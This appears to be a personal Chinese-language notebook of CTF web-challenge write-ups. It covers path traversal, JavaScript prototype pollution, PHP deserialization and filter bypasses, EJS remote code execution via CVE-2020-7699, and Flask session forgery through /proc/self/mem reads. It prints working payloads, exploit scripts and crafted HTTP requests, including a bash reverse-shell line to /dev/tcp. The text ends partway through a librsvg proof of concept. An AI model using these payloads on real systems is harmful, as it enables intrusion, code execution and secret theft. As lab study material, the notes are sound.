# 漏了个大洞

## cve-2018-3760路径穿越




第一次构造payload可以直接尝试 assets/file:///etc/passwd 

此时走会发现/以及被过滤 随即可以将/进行url编码绕过

assets/file:%2f%2f 此时又出现/etc/passwd/不在一个指定的路径下该提示 



## JavaScript原型链污染

攻防世界中的wife_wife

js中为了解决创建新对象时，类里的方法还是绑定在类上而不是对象上，意味着每次创建对象都会执行一次该方法，由此出现了原型这一说法，可以使用（prototype)，这样子创建类时那个方法也只创建了一次

认为原型`prototype`是类`Foo`的一个属性，而所有用`Foo`类实例化的对象，都将拥有这个属性中的所有内容，包括变量和方法

可以通过`Foo.prototype`来访问`Foo`类的原型，但`Foo`实例化出来的对象，是不能通过prototype访问原型的

这时候还有一个修饰属性 _ _proto_ _    一个Foo类实例化出来的foo对象，可以通过`foo.__proto__`属性来访问Foo类的原型

~~~javascript
foo.__proto__ == Foo.prototype
~~~

1. `prototype`是一个类的属性，所有类对象在实例化的时候将会拥有`prototype`中的属性和方法
2. 一个对象的`__proto__`属性，指向这个对象所在的类的`prototype`属性



1. 每个构造函数(constructor)都有一个原型对象(prototype)
2. 对象的`__proto__`属性，指向类的原型对象`prototype`
3. JavaScript使用prototype链实现继承机制

原型链污染



此时结果：zoo.bar = 2

因为前面我们修改了foo的原型`foo.__proto__.bar = 2`，而foo是一个Object类的实例，所以实际上是修改了Object这个类，给这个类增加了一个属性bar，值为2

我们又用Object类创建了一个zoo对象`let zoo = {}`，zoo对象自然也有一个bar属性了

在一个应用中，如果攻击者控制并修改了一个对象的原型，那么将可以影响所有和这个对象来自同一个类、父祖类的对象。这种攻击方式就是**原型链污染**

原型链能够被污染的情况

能够控制数组（对象）的键名的操作即可

1.对象merge

2.对象clone

如图示例：





此时能够正常合并 并且没有被污染 因为"__proto__"代表了o2的原型 并不能被认为是键名 要使它被认为是键名则需要将其解析 

比如

~~~javascript
let o2 = JSON.parse('{"a": 1, "__proto__": {"b": 2}}')
~~~

所以在攻防世界题目里面就是直接进行一个污染即可 这样便可以绕过原型 将其字段isAdmin污染为true

## php文件包含

php的备份文件 index.php的常见备份文件 index.php.bak     index.php.old    index.php.backup

index.phps    index.php.swp   index.php.swo   index.php.php~   index.php.txt

看题



直接就是代码审计 过滤的字符一定存在于check.php中

此时我们也能够想到通用的语句过滤 php://filter

所以我们尝试:

~~~php
?filename=php://filter/read=convert.base64-encode/resource=check.php
~~~

此时出现

发现可能其中存在一些拦截 对于这个convert.base64-encode

随后可以通过php中的一个方法

该过滤器可以处理所有的流

~~~java
?filename=php://filter//convert.iconv.utf8.utf16/resource=check.php

~~~



会发现找到了其中的过滤的字符 最后我们构造自己的payload即可 盲猜是存在于flag.php中 攻防世界中的file_include



## php序列化

攻防世界中的unseping











于是通过命令查找即可 但是要对所过滤的字符进行waf绕过

ls绕过

~~~php
<?php
class ease{
    
    private $method;
    private $args;
    function __construct($method, $args) {
        $this->method = $method;
        $this->args = $args;
    }
     
}
 
$o=new ease("ping",array('l""s'));
$s = serialize($o);
echo base64_encode($s);
?>
~~~

空格绕过可使用${IFS}

~~~php
<?php
class ease{
    
    private $method;
    private $args;
    function __construct($method, $args) {
        $this->method = $method;
        $this->args = $args;
    }
     
}
 
$o=new ease("ping",array('l""s${IFS}f""lag_1s_here'));
$s = serialize($o);
echo base64_encode($s);
?>
~~~

此时出现flag_831b69012c67b35f.php说明flag可能在flag_1s_here/flag_831b69012c67b35f.php下

所以再次进行命令行绕过  /要用printf及$()绕过  

~~~php
<?php
 
class ease{
private $method;
private $args;
function __construct($method, $args) {
    $this->method = $method;
    $this->args = $args;
}
  
}
#/对应的8进制编码57
$a = new ease("ping",array('c""at${IFS}f""lag_1s_here$(printf${IFS}"\57")f""lag_831b69012c67b35f.p""hp'));
$b = serialize($a);
echo $b;
echo'
';
echo base64_encode($b);
?>
~~~


**利用oct编码（八进制）绕过**

~~~python
str1 = "cat flag_1s_here/flag_831b69012c67b35f.php"
arr = []
for i in str1:
    #对字符先转换为ASCII码，再转换为八进制
    r = oct(ord(i))
    #这个主要是为了将八进制前面的0o替换掉
    r=str(r).replace("0o","")
    arr.append(r)
s = "\\"
# print(arr)
#将所有的八进制组合，最终的结果第一个地方应该再添加一个\
p=s.join(arr)
print(p)
~~~

~~~php
<?php
class ease{
    
    private $method;
    private $args;
    function __construct($method, $args) {
        $this->method = $method;
        $this->args = $args;
    }
     
}
$o=new ease("ping",array('$(printf${IFS}"\143\141\164\40\146\154\141\147\137\61\163\137\150\145\162\145\57\146\154\141\147\137\70\63\61\142\66\71\60\61\62\143\66\67\142\63\65\146\56\160\150\160")'));
$s = serialize($o);
 
echo base64_encode($s);
?>
~~~

## php函数应用解密

2019年的CISCN 攻防世界中的love_math

打开环境即代码审计

~~~php
<?php
error_reporting(0);
//听说你很喜欢数学，不知道你是否爱它胜过爱flag
if(!isset($_GET['c'])){
    show_source(__FILE__);
}else{
    //例子 c=20-1
    $content = $_GET['c'];
    if (strlen($content) >= 80) {
        die("太长了不会算");
    }
    $blacklist = [' ', '\t', '\r', '\n','\'', '"', '`', '\[', '\]'];
    foreach ($blacklist as $blackitem) {
        if (preg_match('/' . $blackitem . '/m', $content)) {
            die("请不要输入奇奇怪怪的字符");
        }
    }
    //常用数学函数http://www.w3school.com.cn/php/php_ref_math.asp
    $whitelist = ['abs', 'acos', 'acosh', 'asin', 'asinh', 'atan2', 'atan', 'atanh', 'base_convert', 'bindec', 'ceil', 'cos', 'cosh', 'decbin', 'dechex', 'decoct', 'deg2rad', 'exp', 'expm1', 'floor', 'fmod', 'getrandmax', 'hexdec', 'hypot', 'is_finite', 'is_infinite', 'is_nan', 'lcg_value', 'log10', 'log1p', 'log', 'max', 'min', 'mt_getrandmax', 'mt_rand', 'mt_srand', 'octdec', 'pi', 'pow', 'rad2deg', 'rand', 'round', 'sin', 'sinh', 'sqrt', 'srand', 'tan', 'tanh'];
    preg_match_all('/[a-zA-Z_\x7f-\xff][a-zA-Z_0-9\x7f-\xff]*/', $content, $used_funcs);  
    foreach ($used_funcs[0] as $func) {
        if (!in_array($func, $whitelist)) {
            die("请不要输入奇奇怪怪的函数");
        }
    }
    //帮你算出答案
    eval('echo '.$content.';');
}
~~~

里面存在黑名单 白名单即哪些能用哪些不能用

根据源码可以先行进行构造payload ?c=20-1 看到回显



再使用御剑扫描发现flag.php 可以猜测flag存于该文件下

构造payload?c=cat/flag 但是发现cat flag等都不在白名单中 



变量a b 与_GET也都不在白名单中 所以我们可以根据白名单进行替换

~~~php
?c=(&_GET[pi])(&_GET(abs))&pi=system&abs=cat/flag
~~~

这里的_GET是无法进行直接替换，而且[]也被黑名单过滤了

php中有一个函数hex2bin()十六进制值的字符串转换为 ASCII 字符

_GET为ASCII值所以可以先将其转为十六进制的值再使用hex2bin()

hex2bin(5f 47 45 54) 就是 _GET

但是hex2bin()函数也不是白名单里面的 

但是hex2bin()函数可以通过base_convert()函数来进行转换

base_convert()可以返回任意字母，不过无法返回`_ *`等特殊字符



这里的hex2bin可以看做是36进制，用base_convert来转换将在10进制的数字转换为16进制就可以出现hex2bin

hex2bin=base_convert(37907361743,10,36)

5f 47 45 54要用dechex()函数将10进制数转换为16进制的数

dechex(1598506324)，1598506324转换为16进制就是5f 47 45 54

36进制：它由0-9，A-Z组成，字母不区分大小写。与10进制的对应关系是：0-9对应0-9；A-F对应10-35。

进制说明：36进制是 0-Z （0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZ）。

所以payload可以构造为/?c==$pi=base_convert(37907361743,10,36)(dechex(1598506324));($$pi{pi})($$pi{abs})&pi=system&abs=cat /flag

~~~htm
scandir() 函数：返回指定目录中的文件和目录的数组。
base_convert() 函数：在任意进制之间转换数字。
dechex() 函数：把十进制转换为十六进制。
hex2bin() 函数：把十六进制值的字符串转换为 ASCII 字符。
var_dump() ：函数用于输出变量的相关信息。
readfile() 函数：输出一个文件。该函数读入一个文件并写入到输出缓冲。若成功，则返回从文件中读入的字节数。若失败，则返回 false。您可以通过 @readfile() 形式调用该函数，来隐藏错误信息。
语法：readfile(filename,include_path,context)
~~~

## 目录穿越以及原型链

攻防世界中的badprogrammer

主要存在的漏洞：



打开环境 可以看到只是一个简单的静态页面 同时它是boorstrap框架构建的 



查看源码 发现文件路径有src=/static/js/等等



随后我们可以尝试使用御剑等扫描工具对网站进行扫描 御剑扫不出来 不知道为什么 后续我使用的是dirsearch

可以发现其下存在这么一个路径   /static../ 所以可以直接进行访问



使用awvs也可以


发现其目录结构



点进去app.js看到源码

~~~javascript
const express = require('express');
const fileUpload = require('express-fileupload');
const app = express();

app.use(fileUpload({ parseNested: true }));

app.post('/4_pATh_y0u_CaNN07_Gu3ss', (req, res) => {
    res.render('flag.ejs');
});

app.get('/', (req, res) => {
    res.render('index.ejs');
})

app.listen(3000);
app.on('listening', function() {
    console.log('Express server started on port %s at %s', server.address().port, server.address().address);
});
~~~

通过源代码我们可以尝试去查看/4_pATh_y0u_CaNN07_Gu3ss 对其进行抓包 主要它是post请求 通过hackbar请求 我发现没有请求成功 所以进行了抓包 然后修改请求头GET为POST 看到flag在txt中


尝试访问flag.txt并未能访问



此时在查看其他信息 package.json

~~~json
{
  "name": "app",
  "version": "1.0.0",
  "description": "",
  "main": "app.js",
  "scripts": {
    "app": "node /app/app.js",
    "test": "echo \"Error: no test specified\" && exit 1"
  },
  "author": "",
  "license": "ISC",
  "dependencies": {
    "ejs": "^3.1.5",
    "express": "^4.17.1",
    "express-fileupload": "1.1.7-alpha.4"
  }
}

~~~

发现了这么一个漏洞 express-fileupload    中间件漏洞：**CVE-2020-7699。**
该漏洞存在于`express-fileupload`版本低于1.1.9（不包含），在`package.json`中可以看到其版本为1.1.7，可以利用该漏洞

NodeJS模块代码注入

该漏洞完全是由于Nodejs的express-fileupload模块引起，该模块的1.1.8之前的版本存在原型链污染（Prototype Pollution）漏洞，当然，引发该漏洞，需要一定的配置：parseNested选项设置为true

**所以在前面app.js中我们可以看到已经将parseNested设置为true**

该漏洞可以引发DOS拒绝服务攻击，配合ejs模板引擎，可以达到RCE的目的

源码：

~~~JavaScript
busboy.on('finish', () => {
    debugLog(options, `Busboy finished parsing request.`);
    if (options.parseNested) {
        req.body = processNested(req.body);
        req.files = processNested(req.files);
    }
    if (!req[waitFlushProperty]) return next();
    Promise.all(req[waitFlushProperty])
        .then(() => {
        delete req[waitFlushProperty];
        next();
    }).catch(err => {
        delete req[waitFlushProperty];
        debugLog(options, `Error while waiting files flush: ${err}`);
        next(err);
    });
    
});
~~~

~~~JavaScript
function processNested(data){
    if (!data || data.length < 1) return {};

    let d = {},
        keys = Object.keys(data);       //获取键名,列表

    for (let i = 0; i < keys.length; i++) {
        let key = keys[i],
            value = data[key],
            current = d,
            keyParts = key
        .replace(new RegExp(/\[/g), '.')
        .replace(new RegExp(/\]/g), '')
        .split('.');

        for (let index = 0; index < keyParts.length; index++){
            let k = keyParts[index];
            if (index >= keyParts.length - 1){
                current[k] = value;
            } else {
                if (!current[k]) 
                    current[k] = !isNaN(keyParts[index + 1]) ? [] : {};
                current = current[k];
            }
        }
    }

    return d;
};
~~~

发生污染的就是在于该函数processNested

```
例如:
传入的参数是:{"a.b.c":"m1sn0w"}
通过这个函数后，返回的是"{ a: { b: { c: 'm1sn0w' } } }

其实他跟那个merge函数比较类似，都是循环调用，因此存在原型链污染
传入参数:{"__proto__.m1sn0w":"m1sn0w"}
然后我们调用console.log(Object.__proto__.m1sn0w)
返回的值为m1sn0w
```

如果parseNested参数为true，则调用processNested函数，且参数是req.body或者req.files

req.body是nodejs解析post请求体，req.files获取上传文件的信息

两种方法都可以

关于req.files参数，例如：POST请求上传文件

~~~text
POST / HTTP/1.1

Host: 192.168.0.101:7778

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

Referer: http://192.168.0.101:7778/

Content-Type: multipart/form-data; boundary=---------------------------1546646991721295948201928333

Content-Length: 336

Connection: close

Upgrade-Insecure-Requests: 1


-----------------------------1546646991721295948201928333

Content-Disposition: form-data; name="upload"; filename="m1sn0w.txt"

Content-Type: text/plain


aaa


-----------------------------1546646991721295948201928333

Content-Disposition: form-data; name="username"


-----------------------------1546646991721295948201928333--
~~~



利用漏洞

~~~text
POST / HTTP/1.1
Host: 192.168.0.101:7778
Content-Type: multipart/form-data; boundary=---------------------------1546646991721295948201928333
-----------------------------1546646991721295948201928333
Content-Disposition: form-data; name="upload"; filename="m1sn0w.txt"
Content-Type: text/plain
aaa
-----------------------------1546646991721295948201928333
Content-Disposition: form-data; name="__proto__.toString"
malicious_code
-----------------------------1546646991721295948201928333--
~~~

ejs模板引擎存在一个利用原型污染，进行RCE的一个漏洞（这个漏洞暂时还没有修复，可能是因为利用的先决条件是要存在一个原型链污染的点）

关键源码：

~~~javascript
compile: function () {
    /** @type {string} */
    var src;
    /** @type {ClientFunction} */
    var fn;
    var opts = this.opts;
    var prepended = '';
    var appended = '';
    /** @type {EscapeCallback} */
    var escapeFn = opts.escapeFunction;
    /** @type {FunctionConstructor} */
    var ctor;
  
    if (!this.source) {
      this.generateSource();
      prepended +=
        '  var __output = "";\n' +
        '  function __append(s) { if (s !== undefined && s !== null) __output += s }\n';
      if (opts.outputFunctionName) {
        prepended += '  var ' + opts.outputFunctionName + ' = __append;' + '\n';
      }
      if (opts.destructuredLocals && opts.destructuredLocals.length) {
        var destructuring = '  var __locals = (' + opts.localsName + ' || {}),\n';
        for (var i = 0; i < opts.destructuredLocals.length; i++) {
          var name = opts.destructuredLocals[i];
          if (i > 0) {
            destructuring += ',\n  ';
          }
          destructuring += name + ' = __locals.' + name;
        }
        prepended += destructuring + ';\n';
      }
      if (opts._with !== false) {
        prepended +=  '  with (' + opts.localsName + ' || {}) {' + '\n';
        appended += '  }' + '\n';
      }
      appended += '  return __output;' + '\n';
      this.source = prepended + this.source + appended;
    }
}

    src = this.source

    ctor = Function

    fn = new ctor(opts.localsName + ', escapeFn,include,rethrow',src);

    fn.apply(opts.context,[data || {},escapeFn,include,rethrow]);
~~~

可以从下往上进行分析：

1. 调用了fn方法，如果src参数可控，那么就可以自定义该函数；
2. src参数的值来源于this.source
3. 从最上面的方法，this.source = prepended + this.source + appended


最关键部分：

~~~javascript
if (!this.source) {
      this.generateSource();
      prepended +=
        '  var __output = "";\n' +
        '  function __append(s) { if (s !== undefined && s !== null) __output += s }\n';
      if (opts.outputFunctionName) {
        prepended += '  var ' + opts.outputFunctionName + ' = __append;' + '\n';
      }
}
~~~



所以通用payload

x;process.mainModule.require('child_process').exec('bash -c "bash -i &> /dev/tcp/ip/port 0>&1"');x



~~~text
POST /4_pATh_y0u_CaNN07_Gu3ss HTTP/1.1
Host: 61.147.171.103:52686
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: multipart/form-data; boundary=---------------------------1546646991721295948201928333
Content-Length: 289


-----------------------------1546646991721295948201928333
Content-Disposition: form-data; name="__proto__.outputFunctionName"

x;process.mainModule.require('child_process').exec('cp /flag.txt /app/static/js/flag.txt');x

-----------------------------1546646991721295948201928333--

~~~

有时候仅仅污染 `outputFunctionName`可能不足以在当前的EJS和Express环境下触发代码执行。附加污染 `client`和 `debug`属性可以确保EJS在编译模板时进入可以执行动态代码的路径

污染成功后，**需要触发EJS模板渲染**，才能使被注入的代码执行。您应该**在发送污染Payload后，再访问一次网站首页（/）** 来触发 `res.render('index.ejs')`，从而执行命令

## nmap

2020网鼎杯 朱雀组 nmap







## python flask

攻防世界中的 catcat-new

不管三七二一先扫站 发现了admin



随后进行访问 发现没有任何内容


随后对任意出现的猫进行访问 哦摸 发现存在路径 大胆猜测文件包含上传



文件包含需要懂的基础知识



```
* /etc/environment
* /etc/hostname
* /etc/hosts
/proc/self/environ
/proc/self/environ文件包含了当前进程的环境变量

/proc/self/fd
这是一个目录，该目录下的文件包含着当前进程打开的文件的内容和路径。这个fd比较重要，因为在Linux系统中，如果一个程序用 open() 打开了一个文件，但是最终没有关闭它，即使从外部（如：os.remove(SECRET_FILE))删除这个文件之后，在/proc这个进程的fd目录下的pid文件描述符目录下还是会有这个文件的文件描述符，通过这个文件描述符我们即可以得到被删除的文件的内容。通过/proc/self/fd/§pid§来查看你当前进程所打开的文件内容。

当pid不知道时，我们可以通过bp爆破，pid是数字。

/proc/self/exe
获取当前进程的可执行文件的路径
```

随后可以大胆构造文件路径 路径穿越访问发现漏洞



再去读取进程 发现app.py进程同时也知道该站点框架为flask 也可以**通过工具Wappalyzer查询网站所使用框架**



随后可以一级一级往上读 尝试读取到源代码 进行代码审计

格式化代码

~~~python
#需要格式化的代码
code_str = '''import os\nimport uuid\nfrom flask import Flask, request, session, render_template, Markup\nfrom cat import cat\n\nflag = ""\napp = Flask(\n    __name__,\n    static_url_path=\'/\', \n    static_folder=\'static\' \n)\napp.config[\'SECRET_KEY\'] = str(uuid.uuid4()).replace("-", "") + "*abcdefgh"\nif os.path.isfile("/flag"):\n    flag = cat("/flag")\n    os.remove("/flag")\n\n@app.route(\'/\', methods=[\'GET\'])\ndef index():\n    detailtxt = os.listdir(\'./details/\')\n    cats_list = []\n    for i in detailtxt:\n        cats_list.append(i[:i.index(\'.\')])\n\n    return render_template("index.html", cats_list=cats_list, cat=cat)\n\n\n\n@app.route(\'/info\', methods=["GET", \'POST\'])\ndef info():\n    filename = "./details/" + request.args.get(\'file\', "")\n    start = request.args.get(\'start\', "0")\n    end = request.args.get(\'end\', "0")\n    name = request.args.get(\'file\', "")[:request.args.get(\'file\', "").index(\'.\')]\n\n    return render_template("detail.html", catname=name, info=cat(filename, start, end))\n\n\n\n@app.route(\'/admin\', methods=["GET"])\ndef admin_can_list_root():\n    if session.get(\'admin\') == 1:\n        return flag\n    else:\n        session[\'admin\'] = 0\n        return "NoNoNo"\n\n\n\nif __name__ == \'__main__\':\n    app.run(host=\'0.0.0.0\', debug=False, port=5637)'''
 
# 按行分割字符串
lines = code_str.split('\n')
 
indented_lines = [line if line.strip() else '' for line in lines]
 
# 连接并打印格式化后的代码
formatted_code = '\n'.join(indented_lines)
print(formatted_code)
~~~


~~~python
import os
import uuid
from flask import Flask, request, session, render_template, Markup
from cat import cat

flag = ""
app = Flask(
    __name__,
    static_url_path='/',
    static_folder='static'
)
app.config['SECRET_KEY'] = str(uuid.uuid4()).replace("-", "") + "*abcdefgh"  # 此处利用uuid.uuid4()生成了一串id字符串并在后面拼接*abcdefgh
if os.path.isfile("/flag"):  # 导入flag文件并删除掉
    flag = cat("/flag")
    os.remove("/flag")


@app.route('/', methods=['GET'])
def index():
    detailtxt = os.listdir('./details/')
    cats_list = []
    for i in detailtxt:
        cats_list.append(i[:i.index('.')])

    return render_template("index.html", cats_list=cats_list, cat=cat)


@app.route('/info', methods=["GET", 'POST'])
def info():
    filename = "./details/" + request.args.get('file', "")
    start = request.args.get('start', "0")
    end = request.args.get('end', "0")
    name = request.args.get('file', "")[:request.args.get('file', "").index('.')]

    return render_template("detail.html", catname=name, info=cat(filename, start, end))


@app.route('/admin', methods=["GET"])  # 在session信息中admin=1的用户在/admin路径下访问网站可以获得flag，所以要伪造session。
def admin_can_list_root():
    if session.get('admin') == 1:
        return flag
    else:
        session['admin'] = 0
    return "NoNoNo"


if __name__ == '__main__':
    app.run(host='0.0.0.0', debug=False, port=5637)
~~~

代码审计发现 session中的admin=1即可拿到flag 随后只需要伪造session即可

**session 的伪造 需要 serect_key，serect_key的值可通过内存数据获取，在读取内存数据文件(proc/self/mem)之前，我们需要知道哪些内存是可以读写的，这就需要我们先通过proc/self/maps获取可读内容的映射地址**

然后编写脚本读取内存区域并寻找serect_key即可

~~~python
#脚本用于读取内存区域进行寻找key的 拿到key就可以着手进行伪造session


import re
import requests

maps = open('test.txt')  # 打开名为 'test.txt' 的文件并赋值给变量 maps
b = maps.read()  # 读取文件内容并赋值给变量 b
lst = b.split('\\n')  # 根据换行符 '\n' 将文件内容拆分为列表，并赋值给变量 lst，映射表中的内容是一行一行的。

for line in lst:  # 遍历列表 lst 中的每一行内容
    if 'rw' in line:  # 如果当前行包含 'rw'，'rw' 代表该内存区域可读可写，'r'代表可读，'w'代表可写
        addr = re.search('([0-9a-f]+)-([0-9a-f]+)', line)  # 使用正则表达式在当前行中搜索地址范围并保存到变量 addr 中
        start = int(addr.group(1), 16)  # 将地址范围的起始地址从十六进制转换为十进制，并赋值给变量 start
        end = int(addr.group(2), 16)  # 将地址范围的结束地址从十六进制转换为十进制，并赋值给变量 end
        print(start, end)  # 打印起始地址和结束地址

        # 构造请求URL，用于读取 /proc/self/mem 文件的特定区域
        url = f"http://61.147.171.35:64792/info?file=../../proc/self/mem&start={start}&end={end}"

        # 发送 GET 请求并获取响应
        response = requests.get(url)

        # 使用正则表达式从响应文本中找到符合指定格式的 SECRET_KEY
        secret_key = re.findall("[a-z0-9]{32}\*abcdefgh", response.text)

        # 如果找到了 SECRET_KEY，则打印并结束循环
        if secret_key:
            print(secret_key)
            break
~~~




可以看到其secret_key 随后进行伪造session

**我们需要用到一款在Flask框架中伪造session的工具：Flask-session-cookie-manager**



python flask_session_cookie_manager3.py decode -s "secret_key" -c "session"

python flask_session_cookie_manager3.py encode -s "secret_key" -t "data"

要拿到原来的session我们就需要进行抓包 

抓包之后进行解密 可以看到原数据 再将我们想要的数据进行加密即可

## php反序列化

2020 网鼎杯朱雀组 phpweb



进去看到只有一个时间点 时间点一旦变化就会跳到index.php 一直在变化 然后用dirsearch扫了一下 发现了一个index.php 还有一个login 随后访问index.php/login  发现没有任何信息 

时间一直在跳动可以猜想js控制页面元素 然后看源码



**看到func p 两个控制函数 而且index.php还是post请求**

可以尝试通过两个控制函数进行对系统的访问 

遇事不决先抓包 



这里我已经对系统进行了访问 system和ls 但是返回hacker了 说明有过滤

既然被过滤 那我们可以尝试读取index.php的源码内容 

用到一个函数file_get_contents 主要用于把整个文件读入一个字符串中 一般的首选方法   highlight_file() ，show_source()



拿到了源码 进行代码审计 

~~~php
 <?php
    $disable_fun = array("exec","shell_exec","system","passthru","proc_open","show_source","phpinfo","popen","dl","eval","proc_terminate","touch",
      "escapeshellcmd","escapeshellarg","assert","substr_replace","call_user_func_array","call_user_func","array_filter", "array_walk",
      "array_map","registregister_shutdown_function","register_tick_function","filter_var", "filter_var_array", "uasort", "uksort", "array_reduce",
      "array_walk", "array_walk_recursive","pcntl_exec","fopen","fwrite","file_put_contents"
    );
    function gettime($func, $p) {
      $result = call_user_func($func, $p);
      $a= gettype($result);
      if ($a == "string") {
        return $result;
      } else {
        return "";
      }
    }
    class Test {
      var $p = "Y-m-d h:i:s a";
      var $func = "date";
      function __destruct() {
        if ($this->func != "") {
          echo gettime($this->func, $this->p);
        }
      }
    }
    $func = $_REQUEST["func"];
    $p = $_REQUEST["p"];
    if ($func != null) {
      $func = strtolower($func);
      if (!in_array($func,$disable_fun)) {
        echo gettime($func, $p);
      }else {
        die("Hacker...");
      }
    }
  ?>
~~~

通过源码可以看到有很多黑名单 包括system

但是它有一个类一直没有使用 Test 所以可以尝试进行序列化 来伪造payload





发现命令可以成功执行 出现了几个文件 bg.jpg index.php等

然后可以直接构造带有flag名字的payload即可





看到回显flag

随后构造获取flag即可





php可以使用\会识别特殊字符串，绕过黑名单 因此前面的func可以采用func = \system

还有一个点 我前面直接构造cat /flag_1258515150并没有成功 没有flag回显 不太理解 最后只能构造cat $(find / -name flag*)

## NodeJS express

攻防世界的ez_curl

Express是一个流行的Node.js Web框架，它提供了许多有用的功能来构建Web应用程序。其中之一是参数解析，它允许开发者解析HTTP请求中的参数。Express提供了许多选项来配置参数解析。其中之一是parameterLimit选项。

parameterLimit选项用于指定query string或者request payload的最大数量。默认情况下，它的值是1000

本题的知识点

- express的parameterLimit默认为1000

- 根据rfc，header字段可以通过在每一行前面至少加一个SP或HT来扩展到多行

- 第一个，PHP 的stripos()方法只匹配 当前字符串，也就是说，我们只要在admin前面加上\n进行换行，他就检测不到了

  第二个，express的parameterLimit默认为1000，也就是说，只要我们在params后面追加999个参数，后面追加的&admin=false就会被舍弃

进来审计代码

~~~php
 <?php
highlight_file(__FILE__);
$url = 'http://back-end:3000/flag?';
$input = file_get_contents('php://input');
$headers = (array)json_decode($input)->headers;
for($i = 0; $i < count($headers); $i++){
    $offset = stripos($headers[$i], ':'); //找到出现:的地方然后进行匹配分割
    $key = substr($headers[$i], 0, $offset); //从第一个开始到:的地方为key值
    $value = substr($headers[$i], $offset + 1); //从:之后的为value值
    if(stripos($key, 'admin') > -1 && stripos($value, 'true') > -1){ //存在admin:true就会过滤掉
        die('try hard');
    }
}
$params = (array)json_decode($input)->params;
$url .= http_build_query($params);
$url .= '&admin=false';
$ch = curl_init();
curl_setopt($ch, CURLOPT_URL, $url);
curl_setopt($ch, CURLOPT_HTTPHEADER, $headers);
curl_setopt($ch, CURLOPT_TIMEOUT_MS, 5000);
curl_setopt($ch, CURLOPT_NOBODY, FALSE);
$result = curl_exec($ch);
curl_close($ch);
echo $result;
try hard1
~~~

观察代码发现会将输入的转化为headers头数组 然后进行遍历数组 检查是否有以**admin**为[关键字](https://so.csdn.net/so/search?q=%E5%85%B3%E9%94%AE%E5%AD%97&spm=1001.2101.3001.7020)且值为**true**的头部，然后从输入中提取**params**参数，将其转化成字符串，追加到**url**后面，同时在后面追加**&admin=false**

有一个file_get_contents('php://input')，这是一个文件包含，当Content-Type为application/x-www-form-urlencoded且提交方法是POST方法时，$_POST数据与php://input数据是一致的

然后还有一个附件 可以看到定义了express 即用了express框架

~~~javascript
const express = require('express');

const app = express();

const port = 3000;
const flag = process.env.flag;

app.get('/flag', (req, res) => {
    if(!req.query.admin.includes('false') && req.headers.admin.includes('true')){
        res.send(flag);
    }else{
        res.send('try hard');
    }
});

app.listen({ port: port , host: '0.0.0.0'});


~~~

根据express框架中的parameterLimit默认为1000 审计代码 发现传输过来的admin不能包含false但是要包含true

所以我们需要对这里绕过即可输出flag 但是前面还有一个php文件 php文件将发包到js中

而php中最后的每次请求都会加上&admin=false

所以可以借助parameterLimit 只要超1000就可以将&admin=false过滤掉

但是php又会检测&admin=true将其过滤

所以可以尝试构建aa:aa这样的payload 但是不能直接admin:true这样

然后json的格式化中可以通过换行符进行绕过

在JSON中处理换行符需要特别注意，因为直接包含换行符（*\n* 或 *\r*）可能会导致解析错误。JSON字符串中的换行符必须被转义，以确保数据的正确传输和解析

所以可以这样构建 aa:aa\nadmin:true    headers

然后写脚本发送即可

~~~python
import json
import requests
 
url = "http://61.147.171.105:56710/"
data = {"headers": ["aa:aa\nadmin:true", "Content-Type: application/json"],
        "params": {"admin": "true"}}
# 构造满足的data值，现已满足headers条件，还需要绕过params
 
for i in range(1000):
    data["params"]["a"+str(i)]=i
 
headers={
    "Content-Type": "application/json"
}
json1=json.dumps(data)
# 将字典转换为JSON格式的字符串
resp=requests.post(url,headers=headers,data=json1)
print(resp.content)
~~~

还可以这么构造

{"headers": ["admin: x", " true: y"]}

由于`admin`和`ture`出现在数组的两个元素中，因此可以绕过PHP文件的判断。在正常解析过程中，在键名中是不允许存在空格的，但NodeJS在遇到这类情况时是宽容的

{"admin": "x true y"}

NodeJS会将分隔符直接去掉

可以构造出来body 然后进行抓包 发包

~~~python
import json

datas = {"headers": ["xx:xx\nadmin: true"],        
    "params": {"admin": "true"}}

for i in range(1020):
    datas["params"]["x" + str(i)] = i

json1 = json.dumps(datas)
print(json1)

~~~

## filter设计缺陷导致的绕过访问

攻防世界中的 ezbypass_cat

打开环境



看到是一个登录框 然后尝试进行登录 使用万能密码

admin admin123等等

但是都回显登录失败

这个也可能存在sql注入 我没有尝试 看别人的wp发现sql注入也不行

随后我进行了登录抓包 发现密码进行了加密



进行目录扫描也发现没有任何东西

随后看wp发现 存在filter设计缺陷



恰巧此题抓包后 发现是/user/login

所以根据查阅的知识进行绕过





还有一种对于spring web 动态controller自动追加/ 绕过的话 在后面添加一个/即可


所以此题 我们可以通过这个缺陷进行绕过    因为路径是login 所以可以尝试添加../flag


这个其实是一个很凑巧的方法

另一个解法

抓包发现存在sys/sysLogin路径


进行访问 查看源码发现华夏erp


华夏erp存在一个泄露用户名和密码敏感漏洞(CNVD-2020-63964)

夏ERP基于SpringBoot框架、SaaS模式，立志为中小企业提供开源好用的ERP软件，目前专注进销存+财务功能。 华夏ERP系统存在敏感信息漏洞，攻击者可利用该漏洞获取敏感信息

影响版本

华夏ERP v3.2

存在华夏erp中有接口user/getAllList,通过白名单的目录穿越，访问该接口得到用户名和密码

所以可以进行访问 /../user/getAllList


看到用户名即密码 

去进行登录 抓包 将这个密码放入即可


回显成功


可以直接进行猜测flag.html或者进行目录扫描加cookie值


## cve-2023-38633

- librsvg <= 2.56.3 目录遍历问题

librsvg是一个用于处理SVG图片的开源依赖库

在 librsvg 2.56.3 之前的版本中，URL 解码器存在目录遍历问题。攻击者可以利用这个漏洞，通过在 XML 文件中的 *xi:include* 元素中使用特定的路径，访问本地文件系统中的敏感文件。例如，通过以下方式可以读取 */etc/passwd* 文件

~~~xml
# 我们通过抓包来构造POC来查找/etc/passwd
<?xml version="1.0" encoding="UTF-8" standalone="no"?>  
<svg width="1000" height="1000" xmlns:xi="http://www.w3.org/2001/XInclude">  
